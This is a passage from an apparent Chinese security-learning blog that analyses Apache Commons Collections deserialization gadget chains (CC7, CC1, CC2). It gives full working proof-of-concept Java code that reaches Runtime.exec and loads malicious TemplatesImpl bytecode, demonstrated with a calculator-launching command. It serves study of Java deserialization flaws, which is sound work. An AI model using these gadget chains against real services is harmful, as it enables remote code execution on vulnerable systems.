        hash = h;
    }
    return h;
}
```

针对所有ascii码字符，如果想避免出现相同的hashcode，h的取值应为128，但是这样计算效率会慢很多，可以看到这里的h为31，那完全可以构造相同的hashcode。

```
ord("y") == 121 , ord("z") == 122 , ord("Z") == 90

"yy".hashCode() == 31 × 121 + 1 × 121 == 3872

"zZ".hashCode() == 31 × 122 + 1 × 90 == 3872
```

**Linklist** 中的结点，都是一个**Entry**类型。

```
protected Entry(int hash, K key, V value, Entry<K,V> next) {
    this.hash = hash;
    this.key =  key;
    this.value = value;
    this.next = next;
}
```

### 先看『kick-off』

说了这么多，我们直接来看cc7的触发点->**Hashtable.readObject()**

```java
private void readObject(java.io.ObjectInputStream s)
     throws IOException, ClassNotFoundException
{        
  ...
  for (; elements > 0; elements--) {
    K key = (K)s.readObject();
    V value = (V)s.readObject();
    reconstitutionPut(newTable, key, value);
  }
  ...
}
```

`reconstitutionPut(newTable, key, value)`->



当我们反序列化一个 hashtable 类型，其每一个键值对都会也都会执行` readobject` ，其实相当于都是重新`put`到这个哈希表中，所以也进行了hash计算，如果红框前面的hash冲突成立，那么就会执行`key.equal()`，在poc中，我们key的类型为**LazyMap**，我们看看`LazyMap.equal()`。

**LazyMap**继承于**AbstractMapDecorator**，其`equal()`方法调用的是`this.map.equals()`

```java
public boolean equals(Object object) {
    return object == this ? true : this.map.equals(object);
}
```

在创建**LazyMap**时，我们指定了 `this.map`类型为 **HashMap**，所以调用的为 `HashMap.equals()`,**HashMap** 继承于 **AbstractMap**，所以最终掉用的为 `AbstractMap.equal()`:



 红框里调用了`m.get()`,从蓝框里看出来m是`equal()`传入的参数，也就是另外一个 `LazyMap`，也就成功走到了`LazyMap.get()`。

ok我们现在已经知道如何从 `HashTable.readobject`走到`LazyMap.get()`，但是回头看poc，好像还有几个问题需要解决。

### 出现的问题

#### 反射修改ChainedTransformer

你会发现cc7的poc关于sink的构造和之前的不同，我们初始只创建了一个空的 **ChainedTransformer**，后续再用反射进行了修改，这是因为我们在进行这一行代码

`hashtable.put(lazyMap2, 2);`时，也会触发sink。



这里的代码和反序列化的`reconstitutionPut()`基本上一致，我们处理的方法也很简单，在构造的最后再反射修改sink点。

#### 删除多余元素

```java
lazyMap1.put("yy", 1);

Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
lazyMap2.put("zZ", 1);

Hashtable hashtable = new Hashtable();
hashtable.put(lazyMap1, 1);
hashtable.put(lazyMap2, 2);
Field field =transformerChain.getClass().getDeclaredField("iTransformers");
field.setAccessible(true);
field.set(transformerChain,transformers);
lazyMap2.remove("yy");
```

**lazyMap2** 并没有 "yy" 的key，但是我们最后执行了删除这一步，调试发现在`hashtable.put(lazyMap2, 2);`这一步之后，**lazyMap2**发生了变化，原理和上一点相同，这一步也会走到sink的触发点->`LazyMap.get()`：



当前断点位置也就是sink点，而下面一行代码`super.map.put(key, value);`就会对 **lazyMap** 的`HashMap` put 进要比较的元素，导致其变化。



而变化的后果，就是在反序列化进入`equal()`,两者size不一致返回false



至此，cc7分析结束。

## CC 1

### 利用要求

同cc 0

- **cc3.1～3.2.1**
- **jdk 1.7**(8u71之前都可以)

mvn：

```
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.1</version>
</dependency>
```

### 完整poc

```
ObjectInputStream.readObject()
    AnnotationInvocationHandler.readObject()
        Map(Proxy).entrySet()
            AnnotationInvocationHandler.invoke()
                LazyMap.get()
                    ChainedTransformer.transform()
                        ConstantTransformer.transform()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Class.getMethod()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Runtime.getRuntime()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Runtime.exec()
```

```java
public class Poc {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class}, new Object[]{"open  -a Calculator"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);


        HashMap innermap = new HashMap();
        innermap.put("value","abcd");
        LazyMap map = (LazyMap) LazyMap.decorate(innermap,transformerChain);
        Constructor handler_constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class,Map.class);
        handler_constructor.setAccessible(true);
        // 创建一个与代理对象相关联的InvocationHandler
        InvocationHandler map_handler = (InvocationHandler) handler_constructor.newInstance(Override.class,map);
        // 创建代理对象proxy_map来代理map，代理对象执行的所有方法都会替换执行InvocationHandler中的invoke方法
        Map proxy_map = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{Map.class},map_handler);
        Constructor AnnotationInvocationHandler_Constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class,Map.class);
        AnnotationInvocationHandler_Constructor.setAccessible(true);
        //反射创建实例对象
        InvocationHandler handler = (InvocationHandler)AnnotationInvocationHandler_Constructor.newInstance(Retention.class,proxy_map);

        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("bin/CC1Poc.bin"));
        outputStream.writeObject(handler);
        outputStream.close();
        ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("bin/CC1Poc.bin"));
        inputStream.readObject();
    }
}
```

### 前置知识

#### 动态代理

之前学的文章： [DynamicProxy](https://theoyu.top/java/fundation/DynamicProxy#%E5%8A%A8%E6%80%81%E4%BB%A3%E7%90%86)

### 构造chain

cc1和`LazyMap.get()`相结合的地方，在 **AnnotationInvocationHandler.class**的`invoke()`方法里：



我们只需要把`this.memberValues`声明为 **LazyMap**对象即可。

回到动态代理，如果我们将**AnnotationInvocationHandler**作为被代理类，这样当代理类执行任意方法的时候都会执行被代理类中的**invoke**方法，也就是执行**AnnotationInvocationHandler**中的**invoke**方法。

```java
public class Test1 {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class}, new Object[]{"open  -a Calculator"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);

        HashMap innermap = new HashMap();
        innermap.put("value","abcd");
        LazyMap map = (LazyMap) LazyMap.decorate(innermap,transformerChain);

        Constructor handler_constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class,Map.class);
        handler_constructor.setAccessible(true);
        // 创建一个与代理对象相关联的InvocationHandler
        InvocationHandler map_handler = (InvocationHandler) handler_constructor.newInstance(Retention.class,map);
        // 创建代理对象proxy_map来代理map，代理对象执行的所有方法都会替换执行InvocationHandler中的invoke方法
        Map proxy_map = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{Map.class},map_handler);
        proxy_map.entrySet().iterator();
    }
}
```

最后，再反射创建`AnnotationInvocationHandler`实例对象，把代理类封装写入即可。

```java
Map proxy_map = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{Map.class},map_handler);
Constructor AnnotationInvocationHandler_Constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class,Map.class);
AnnotationInvocationHandler_Constructor.setAccessible(true);
//反射创建实例对象
InvocationHandler handler = (InvocationHandler)AnnotationInvocationHandler_Constructor.newInstance(Retention.class,proxy_map);
```

## CC 2

cc2无论是 **readobject**的复写点，还是 **sink**都是和之前不一样，算是全新的一个方向。

### 利用条件

- **commons-collections4: 4.0**
- jdk 版本暂无限制

mvn：

```
<dependencies>
  <dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-collections4</artifactId>
    <version>4.0</version>
  </dependency>
</dependencies>
```

### 前置知识

#### [Heaps and Priority Queues](https://github.com/yuuuuu422/CS61B-sp18#heaps-and-priority-queues)

#### [javassist](https://theoyu.top/2022/01/19/jvmANDbytecode.html#javassist)

#### TemplatesImpl

TemplatesImpl位于rt.jar下的sun包里，其内部对loadClass进行了重写

调用链如下：

```
TemplatesImpl.getOutputProperties()
  TemplatesImpl.newTransformer()
    TemplatesImpl.getTransletInstance()
        TemplatesImpl.defineTransletClasses()
            TransletClassLoader.defineClass()
```



利用javassist，写一个恶意字节码，利用`defineClass()`本地执行。

```java
public class Test2 {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clas = pool.makeClass("TempTest");
        //继承于AbstractTranslet
        clas.setSuperclass(pool.get(AbstractTranslet.class.getName()));

        String cmd = "java.lang.Runtime.getRuntime().exec(\"open -a Calculator \");";
        CtConstructor constructor = clas.makeClassInitializer();
        constructor.insertBefore(cmd);
//        clas.writeFile("./");
        byte[] bytes = clas.toBytecode();

        TemplatesImpl templates = TemplatesImpl.class.newInstance();

        Class temp = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        setFieled(templates,temp,"_name","tttt");
        setFieled(templates,temp,"_class",null);
        setFieled(templates,temp,"_bytecodes",new byte[][]{bytes});
        setFieled(templates,temp,"_tfactory",new TransformerFactoryImpl());

        templates.getOutputProperties();
    }
    public static void setFieled(TemplatesImpl templates,Class clas ,String fieled,Object obj) throws Exception{
        Field _field = clas.getDeclaredField(fieled);
        _field.setAccessible(true);
        _field.set(templates,obj);
    }
}
```

四个反射是为了调用链能够顺利走到 **defineClass**，恶意类需要继承于 **AbstractTranslet**：我们当然希望唯一的这一个方法是main class



### 从『kick - off』出发

**readObject**的复写点在 **PriorityQueue**，简单梳理就是以下流程：



如果我们控制了`PriorityQueue.comparator`，就可以使第三个流程走向`siftDownUsingComparator()`,进而走向`comparator.compare()`，接下来就是寻找哪些实现了Comparator接口的类拥有compare方法，目标锁定到**TransformingComparator**：



这可控的 `transformer.transform`，谁看了不落泪。

Poc如下：

```java
public class Test1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class}, new Object[]{"open  -a Calculator"})
        };

        Transformer transformerChain = new ChainedTransformer(transformers);
        TransformingComparator comparator = new TransformingComparator(transformerChain);
        PriorityQueue pq = new PriorityQueue(2);
        pq.add(1);
        pq.add(2);

        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(pq,comparator);
        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("bin/CC2Test1.bin"));
        outputStream.writeObject(pq);
        outputStream.close();

        ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("bin/CC2Test1.bin"));
        inputStream.readObject();
    }
}
```

注意优先级队列需要先add两个元素，因为堆初始化时需要`size>=2`才能继续往下(流程图的第二张)。

但这并不是完全意义上的cc2，这里的sink还是`InvokerTransformer.transform()`，只能执行命令，但是 **TemplatesImpl**可以加载恶意字节码，属于执行代码，杀伤力更大。

那么我们现在的目标就是，找到一个实现了**Tranformer**接口的类，他的**transform**方法和**TransformerImpl**的**newTransformer**结合到一起。

等等，回到最初的起点，`InvokerTransformer.transform(Object input)`，不就是反射调用了`input.iArgs() 吗`，那我们只要反射构造就可以运行到`TransformerImpl.newTransformer()`

### 最终poc

```java
public class Test3 {
    public static void main(String[] args) throws Exception {
        Constructor constructor = Class.forName("org.apache.commons.collections4.functors.InvokerTransformer").getDeclaredConstructor(String.class);
        constructor.setAccessible(true);
      //methodName
        InvokerTransformer transformer = (InvokerTransformer) constructor.newInstance("newTransformer");
        TransformingComparator comparator = new TransformingComparator(transformer);
        PriorityQueue queue = new PriorityQueue(1);

        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Cat");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"open  -a Calculator\");";
        cc.makeClassInitializer().insertBefore(cmd);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName())); 

        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        setFieldValue(templates, "_name", "name");
        setFieldValue(templates, "_class", null);

        Object[] queue_array = new Object[]{templates,1};

        setFieldValue(queue,"queue",queue_array);
        setFieldValue(queue,"size",2);
        setFieldValue(queue,"comparator",comparator);


        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("bin/CC2Test3.bin"));
        outputStream.writeObject(queue);
        outputStream.close();
        ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("bin/CC2Test3.bin"));
        inputStream.readObject();

    }

    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
}
```

**queue**和 **comparator**是我们需要构造的两个大头，这里**queue**需要通过反射构造，因为正常构造需要满足类型一致。所以后续我们还需要手动修改**queue**的大小为2，这点在前面也有说过。

这里的调用有点麻烦，不过如果你调试一遍也还算明了，总的来说就是：

